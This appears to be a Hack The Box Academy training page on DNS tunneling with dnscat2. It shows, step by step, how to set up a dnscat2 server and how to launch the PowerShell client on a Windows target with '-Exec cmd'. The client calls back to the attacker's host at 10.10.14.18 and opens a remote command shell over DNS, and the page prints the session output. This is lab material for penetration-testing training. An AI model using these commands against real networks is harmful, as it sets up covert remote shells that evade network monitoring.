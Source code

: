 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/158/section/1436
// Platform Version: V1
// Module ID: 158
// Module Name: Pivoting, Tunneling, and Port Forwarding
// Module Difficulty: Medium
// Section ID: 1436
// Section Title: DNS Tunneling with Dnscat2
// Page Title: Pivoting, Tunneling, and Port Forwarding
// Page Number: 12
-->

# DNS Tunneling with Dnscat2

**Module Name:** Pivoting, Tunneling, and Port Forwarding **Page Number:** 12

#### PIVOTING, TUNNELING, AND PORT FORWARDING

# DNS Tunneling with Dnscat2

## Setting Up & Using dnscat2

#### Cloning dnscat2 and Setting Up the Server

``` shell-session
[!bash!]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

#### Starting the dnscat2 server

``` shell-session
[!bash!]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

#### Cloning dnscat2-powershell to the Attack Host

``` shell-session
[!bash!]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

#### Importing dnscat2.ps1

``` powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

``` powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```

#### Confirming Session Establishment

``` shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

#### Listing dnscat2 Options

``` shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

#### Interacting with the Established Session

``` shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

# 

# 

#### Questions

####
